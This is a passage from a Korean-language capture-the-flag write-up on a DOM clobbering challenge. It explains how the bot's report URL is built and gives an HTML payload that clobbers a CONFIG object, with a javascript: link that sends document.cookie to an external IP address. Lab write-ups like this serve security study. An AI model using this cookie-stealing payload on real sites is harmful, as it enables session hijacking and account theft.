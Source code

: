 이번 문제에서는 게시물을 업로드하는 기능이 없기 때문에, 봇이 해당 `post`의 `id`로 접근하는 식의 방법을 사용할 수 없음

|

```python
target_url = localhost + request.form["report_url"]
```

`report()` 에서 `target_url`을 `report_url`폼의 데이터를 결합해 설정하는 것을 활용해야함

|

|

### 인코딩된 URL 얻기

---

```html
<a id="CONFIG" name="check"></a>
<a id="CONFIG" name="location" href=javascript:location.href="http://20.41.120.97/"+document.cookie></a>
```

![7. Dom clobbering 8](/assets/images/writeup/web-hacking/knock-on/7_DOM_8.png)
